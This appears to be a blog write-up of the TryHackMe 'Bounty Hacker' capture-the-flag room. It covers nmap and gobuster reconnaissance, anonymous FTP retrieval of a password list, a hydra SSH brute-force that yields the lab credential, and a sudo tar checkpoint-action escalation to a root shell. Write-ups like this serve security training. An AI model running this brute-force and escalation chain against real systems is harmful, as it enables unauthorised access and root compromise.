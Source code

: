 ```yaml
---
title: TryHackMe Bounty Hacker
date: 2024-03-11 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- <TARGET_IP> --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 05:41 EDT
Nmap scan report for 10.10.72.181
Host is up (0.32s latency).
Not shown: 56523 filtered tcp ports (no-response), 9009 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 271.50 seconds
```

## **Insights**
---
OS: Ubuntu

- 80 → HTTP
    - Apache httpd 2.4.18 ((Ubuntu)

- 21 → FTP
    - Running vsftpd 3.0.3
    - Allowed anonymous login
    - There are 2 plaintext exposed that looks like a list of passwords and letter containing a username lin

- 22 → SSH
    - Confirmed that lin is legitimate username and locks.txt is a list of possible passwords.
    - login: lin   password: RedDr4gonSynd1cat3

## **Enumeration**
---
### 80 HTTP
Let us see what the webpage looks like.

![Desktop View](/assets/images/bounty-hacker/front-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.72.181 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
```text
=========================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.72.181/images/]
/server-status        (Status: 403) [Size: 277]
```

It looks like we have a redirect page. We can inspect that and look for more information

![Desktop View](/assets/images/bounty-hacker/images-dir.png){: width="972" height="589" }

Nothing looks interesting.

Since we know that port 21 is open, why don't we try and access the FTP anonymously.


### 21 FTP
```bash
ftp <IP>
```
![Desktop View](/assets/images/bounty-hacker/ftp-anon.png){: width="972" height="589" }

Remember that you can do directory listing similar to linux and it is a best practice to use `-a` flag for hidden files

```bash
ls -la
```
![Desktop View](/assets/images/bounty-hacker/list.png){: width="972" height="589" }

There are two interesting files. Let's get that

```bash
get <FILENAME>
```

From your attacking machine, look into your working directory and and you will see these two files that you got from the FTP earlier.


**locks.txt**

```text
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

**task.txt**

```text
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```




## **Gaining an Initial Foothold**

There is a name who wrote the task.txt which can be username. We also have locks.txt that looks like a list of passwords. Let's hail **hydra**

```bash
hydra -l lin -P locks.txt -t 32 10.10.72.181 ssh
```
![Desktop View](/assets/images/bounty-hacker/hydra.png){: width="972" height="589" }

Let us try connecting via SSH using our newlyfound credentials!

```bash
ssh lin@10.10.72.181
```
![Desktop View](/assets/images/bounty-hacker/bling.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/bounty-hacker/tar.png){: width="972" height="589" }

The `tar` command, primarily used for archiving files, has the capability to invoke shell commands. This feature can be abused to gain root access when a user is permitted to run `tar` as root without requiring a password.

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
`sudo`: Executes the following command with superuser (root) privileges.


`tar -cf /dev/null /dev/null`: Attempts to create (`c`) an archive file with `tar`, specifying `/dev/null` as both the archive file location and the file to be archived. Essentially, this part of the command does nothing meaningful since `/dev/null` is a special file that discards all data written to it.


`-checkpoint=1`: This option tells `tar` to perform a checkpoint action after every 1 record processed. Since `tar` isn't actually processing any real data here (both input and output are `/dev/null`), the checkpoint essentially triggers immediately.


`-checkpoint-action=exec=/bin/sh`: This option specifies the action `tar` should take when it reaches a checkpoint. In this case, it executes `/bin/sh`, a command shell interpreter. Because the entire command is run with `sudo`, `/bin/sh` is executed with root privileges.

> Do not forget to find the FLAGS
{: .prompt-danger }

![Desktop View](/assets/images/bounty-hacker/pwned.png){: width="972" height="589" }